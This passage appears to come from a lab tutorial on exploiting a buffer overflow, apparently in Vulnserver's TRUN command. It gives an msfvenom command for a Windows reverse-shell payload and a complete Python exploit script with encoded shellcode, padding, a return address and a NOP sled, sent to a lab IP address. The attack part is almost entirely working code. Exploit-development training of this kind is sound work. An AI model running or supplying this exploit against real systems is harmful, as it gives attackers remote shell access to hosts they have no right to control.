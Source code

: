 # Generating shellcode and gaining access

It is time to generate the shell code. We will use the `msfvenom` to create a reverse shell payload. The syntax is followed:
```cli
$ msfvenom -p windows/shell_reverse_tcp LHOST=<attacking_machine_ip> LPORT=<attacking_machine_listening_port> EXITFUNC=thread -f c -a x86 -b ‘\x00\x0A\x0D’ 
```

```python
#!/bin/python

import sys
import socket
from time import sleep

overflow = (
"\xbf\x4d\x3b\xa8\x0b\xda\xc2\xd9\x74\x24\xf4\x5a\x29\xc9"
"\xb1\x52\x31\x7a\x12\x83\xea\xfc\x03\x37\x35\x4a\xfe\x3b"
"\xa1\x08\x01\xc3\x32\x6d\x8b\x26\x03\xad\xef\x23\x34\x1d"
"\x7b\x61\xb9\xd6\x29\x91\x4a\x9a\xe5\x96\xfb\x11\xd0\x99"
"\xfc\x0a\x20\xb8\x7e\x51\x75\x1a\xbe\x9a\x88\x5b\x87\xc7"
"\x61\x09\x50\x83\xd4\xbd\xd5\xd9\xe4\x36\xa5\xcc\x6c\xab"
"\x7e\xee\x5d\x7a\xf4\xa9\x7d\x7d\xd9\xc1\x37\x65\x3e\xef"
"\x8e\x1e\xf4\x9b\x10\xf6\xc4\x64\xbe\x37\xe9\x96\xbe\x70"
"\xce\x48\xb5\x88\x2c\xf4\xce\x4f\x4e\x22\x5a\x4b\xe8\xa1"
"\xfc\xb7\x08\x65\x9a\x3c\x06\xc2\xe8\x1a\x0b\xd5\x3d\x11"
"\x37\x5e\xc0\xf5\xb1\x24\xe7\xd1\x9a\xff\x86\x40\x47\x51"
"\xb6\x92\x28\x0e\x12\xd9\xc5\x5b\x2f\x80\x81\xa8\x02\x3a"
"\x52\xa7\x15\x49\x60\x68\x8e\xc5\xc8\xe1\x08\x12\x2e\xd8"
"\xed\x8c\xd1\xe3\x0d\x85\x15\xb7\x5d\xbd\xbc\xb8\x35\x3d"
"\x40\x6d\x99\x6d\xee\xde\x5a\xdd\x4e\x8f\x32\x37\x41\xf0"
"\x23\x38\x8b\x99\xce\xc3\x5c\x66\xa6\xe3\x1c\x0e\xb5\xf3"
"\x0d\x93\x30\x15\x47\x3b\x15\x8e\xf0\xa2\x3c\x44\x60\x2a"
"\xeb\x21\xa2\xa0\x18\xd6\x6d\x41\x54\xc4\x1a\xa1\x23\xb6"
"\x8d\xbe\x99\xde\x52\x2c\x46\x1e\x1c\x4d\xd1\x49\x49\xa3"
"\x28\x1f\x67\x9a\x82\x3d\x7a\x7a\xec\x85\xa1\xbf\xf3\x04"
"\x27\xfb\xd7\x16\xf1\x04\x5c\x42\xad\x52\x0a\x3c\x0b\x0d"
"\xfc\x96\xc5\xe2\x56\x7e\x93\xc8\x68\xf8\x9c\x04\x1f\xe4"
"\x2d\xf1\x66\x1b\x81\x95\x6e\x64\xff\x05\x90\xbf\xbb\x26"
"\x73\x15\xb6\xce\x2a\xfc\x7b\x93\xcc\x2b\xbf\xaa\x4e\xd9"
"\x40\x49\x4e\xa8\x45\x15\xc8\x41\x34\x06\xbd\x65\xeb\x27"
"\x94")

shellcode = "A"* 2002 + "\xaf\x11\x50\x62" + "\x90"* 32 + overflow
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()                  
                                   
```
<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/wgJvKKG/7-Gen-Shell-Code-ii.png"></img>  
                     
              
